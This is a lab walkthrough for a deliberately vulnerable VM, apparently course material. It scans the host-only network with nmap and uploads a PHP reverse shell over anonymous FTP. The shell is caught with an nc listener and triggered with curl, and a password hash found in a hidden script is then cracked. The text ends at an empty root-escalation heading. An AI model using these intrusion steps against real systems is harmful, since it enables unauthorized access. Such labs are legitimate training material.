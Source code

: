 # Local

## Setup vm
**Download VirtualBox**[link](https://www.virtualbox.org/wiki/Downloads)

**Target:** [01-Local1.ova](https://assets.01-edu.org/cybersecurity/local/01-Local.ova)

**Tools**[Kali](https://www.kali.org/get-kali/#kali-platforms)

"Install a virtual machine and set up host only adapter for easily finding the target IP."

![example](/image/setup-host-only-network.jpg)
![example](/image/make-sure-using-host-only-network.jpg)
> Ensure that Local1 and Kali use a host-only adapter and share the same one.

Now run kali and Local1



## Find IP Address

To discover the IP addresses, utilize nmap to scan the virtual machine (VM) host IPs that have been set up within the port range from 1 to 254 with the following command:



```
nmap 192.168.160.1-254
```
<img src="./image/find-ip-addr.jpg" alt="Your Image">


In this example, the target IP is **192.168.160.3**.
![example](/image/check-page.jpg)

**Next Step:** Adding a Reverse Shell to the Target Machine


You can obtain a reverse shell from the following GitHub repository: 
[Revshells](https://github.com/pentestmonkey/php-reverse-shell)

**Adding the Shell File to the Target Machine**

Use the command:

```
ftp 192.168.160.3
```
It will prompt for a username. Use "anonymous" as the username and press Enter for the password.
Now, add the shell using the command:
```
put /home/kali/Desktop/dont-worry.php dont-worry.php
```
> In this case, the shell file is located on the Desktop.

To verify whether the shell has been successfully added to the machine, type ls. Then, type exit and press Enter to exit FTP.

**Next Step: Active the Reverse Shell**

Open another command line and execute the command obtained from the reverse shell page:

```
nc -lvnp 9090
```

In another terminal, run the command:

```
curl http://192.168.160.3/files/dont-worry.php
```
to activate the shell.

![example](/image/active-shell.jpg)

Now, navigate to the home folder and execute the following command:
```
cat important.txt
```

In the "important.txt" file, the last line will instruct you to run "runme.sh" bash script to view all data. You can locate "runme.sh" in the root directory using the command:
```
ls -a
```
![example](/image/root.jpg)

Use the cat command to view the contents of the "runme.sh" file:

```
cat .runme.sh
```
![example](/image/runme-bash.jpg)

Within the bash script, you will find the hashed password for Shrek. To identify the hash type, you can use tools like "jack the ripper" or free web applications such as [md5decrypt](https://md5decrypt.net/en/)

![example](/image/check-hash-type.jpg)
![example](/image/decrypt-pass.jpg)


## Get into root







